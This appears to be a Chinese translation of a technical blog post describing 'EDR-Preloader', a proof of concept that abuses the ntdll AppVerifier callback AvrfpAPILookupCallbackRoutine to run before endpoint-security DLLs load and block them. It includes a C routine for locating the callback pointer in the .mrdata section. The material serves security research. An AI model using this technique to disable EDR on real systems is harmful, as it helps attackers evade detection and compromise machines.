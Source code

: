 ## 决定对钩子的回调

虽然有很多不错的选择，但我决定使用 AvrfpAPILookupCallbackRoutine，它似乎是在 Windows 8.1 中引入的。虽然我可以使用较旧的回调来与早期的 Windows 版本兼容，但这需要做更多的工作，而且我想让我的 PoC 保持简单。

AppVerifer 接口的其余部分需要安装 “验证程序提供程序”，这需要大量的内存操作。ShimEngine 稍微容易一些，但将 g\_ShimsEnabled 设置为 TRUE 会启用所有回调，而不仅仅是我们想要的回调，因此我们必须注册每个回调函数，否则应用程序将崩溃。

较新的 AvrfpAPILookupCallbackRoutine 非常好，原因有两个：

1.  通过设置 ntdll!AvrfpAPILookupCallbacksEnabled，可以独立于 AppVerifier 接口启用它，因此不需要 AppVerifier 提供程序。
2.  两个 ntdll!AvrfpAPILookupCallbacksEnabled 和 ntdlL!AvrfpAPILookupCallbackRoutine 很容易在内存中找到，尤其是在 Windows 10 上。

# EDR-Preloader 简介

出于演示目的，我决定构建一个概念证明程序，该验证利用 AvrfpAPILookupCallbackRoutine 回调在 EDR DLL 之前加载，然后阻止加载。目前，我只在两个主要的 EDR 上测试了它，但理论上它应该可以对抗任何 EDR 代码注入，只需进行一些调整。

您可以在文章底部找到完整的源代码。

## 步骤 1：查找 AppVerifier 回调指针

为了创建一个回调函数，我们需要设置 ntdll!AvrfpAPILookupCallbacksEnabled 和 ntdll!AvrfpAPILookupCallbackRoutine。在 Windows 10 上，这两个变量都位于 ntdll 的 .mrdata 部分的开头，该部分在进程初始化期间是可写的。

ntdll!AvrfpAPILookupCallbacksEnabled 是在 ntdll!LdrpMrdataBase 之后直接找到的（尽管有时 ntdll!LdrpKnownDllDirectoryHandle 位于它之前）。

这两个变量似乎总是相距正好 8 个字节，并且顺序相同。在初始化的进程中，布局应如下所示：

offset+0x00 - ntdll!LdrpMrdataBase（设置为 .mrdata 部分的基址）

offset+0x08 - ntdll!LdrpKnownDllDirectoryHandle（设置为非零值）

offset+0x10 - ntdll!AvrfpAPILookupCallbacksEnabled（设置为零）

offset+0x18 - ntdll!AvrfpAPILookupCallbackRoutine（设置为零）

我们可以在自己的进程中扫描 .mrdata 部分，以查找包含该部分基址的指针，然后之后的第一个 NULL 值将是 AvrfpAPILookupCallbackRoutine。

```plain
ULONG_PTR find_avrfp_address(ULONG_PTR mrdata_base) {
    ULONG_PTR address_ptr = mrdata_base + 0x280;  //the pointer we want is 0x280+ bytes in
    ULONG_PTR ldrp_mrdata_base = NULL;

    for (int i = 0; i < 10; i++) {
        if (*(ULONG_PTR*)address_ptr == mrdata_base) {
            ldrp_mrdata_base = address_ptr;
            break;
        }
        address_ptr += sizeof(LPVOID);  // skip to the next pointer
    }

    address_ptr = ldrp_mrdata_base;

    // AvrfpAPILookupCallbackRoutine should be the first NULL pointer after LdrpMrdataBase
    for (int i = 0; i < 10; i++) {
        if (*(ULONG_PTR*)address_ptr == NULL) {
            return address_ptr;
        }
        address_ptr += sizeof(LPVOID);  // skip to the next pointer
    }
    return NULL;
}
```
